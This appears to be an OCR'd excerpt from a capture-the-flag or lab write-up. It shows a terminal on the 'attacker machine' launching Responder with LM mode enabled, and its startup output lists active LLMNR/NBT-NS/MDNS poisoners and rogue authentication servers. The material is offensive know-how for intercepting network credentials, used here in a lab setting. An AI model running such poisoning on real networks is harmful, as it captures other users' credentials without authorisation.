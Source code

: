 On the attacker machine (me/us):

```sh
utopia@utopia: Responder-2.3.0 » sudo python2 Responder.py -I tun0 --lm                                       255 [07:31:23]
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|                                                                                                

           NBT-NS, LLMNR & MDNS Responder 2.2

  Original work by Laurent Gaffie (lgaffie@trustwave.com)
  To kill this script hit CRTL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [ON]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]
[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.5]
    Challenge set              [1122334455667788]


[!] Error starting SSL server on port 443, check permissions or other servers running.[+] Listening for events...
```
